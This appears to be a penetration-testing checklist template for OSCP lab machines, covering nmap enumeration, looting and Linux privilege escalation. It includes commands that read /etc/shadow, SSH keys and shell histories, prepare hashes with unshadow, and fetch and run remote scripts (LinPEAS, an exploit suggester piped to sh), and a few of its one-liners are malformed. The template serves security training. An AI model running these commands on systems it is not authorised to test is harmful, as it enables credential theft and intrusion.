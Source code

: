 <% tp.file.rename("0_SystemChecklist")%>

# Enumeration

```bash
mkdir /oscp/lab/x
```

```bash
nmap --top-ports 30 $hip
```

```bash
i="$hip";sudo nmap --osscan-guess -T 5 -A -p- $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html && sudo nmap -T 5 -sUV --top-ports 100 $i -oN 0_udp_top100.txt
```

> Then, create services templates.

# Initial Foothold

> Use the service template to document possible attack vectors and document here which worked
### Old software

##### Example Software (v1.0.0)

	 `searchsploit` and Google Dorks

### Insecure configurations

##### Insecure configuration 1
	NSE scripts: `ls /usr/share/nmap/scripts`


# Loot

Hostname `hostname`
	

Flag `cat /home/$(id -un)/local.txt`
	

##### Users
```bash
cat /etc/passwd; cat /etc/shadow; w
```
	
`unshadow passwd shadow > unshadowed.txt` 
##### Network
```bash
ip a; /sbin/route; netstat -anp; sudo iptables -S
```
	
##### Interesting files
```bash
ls /home/*/.gpg/; ls /home/*/.ssh/; cat /home/*/.*_history; find / -name ".git" | cd | git config --list 2>/dev/null
```
	
##### Home folder
```bash
ls -al /home/*/; ls -al /root/; find / -user $(id -un) -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
```
	
##### Advanced
X-Server: `pidof X`  (Extract cookies/passwords from browser with `pasco index.dat`)
Mounted Volumes: `cat /etc/fstab; mount; /bin/lsblk`
Drivers: `lsmod`, `/sbin/modinfo [module]`
# PrivEsc
Find Working Dir for attack
```bash
find / -writable -type d -print -quit 2>/dev/null
```
	

### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh -a -r &> linpeas.txt & less -r +F linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`
```bash
grep "CRON" /var/log/syslog; dpkg -l
```

##### Finding 1


### Kernel Exploits
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh | sh | tee LEP.txt
```
	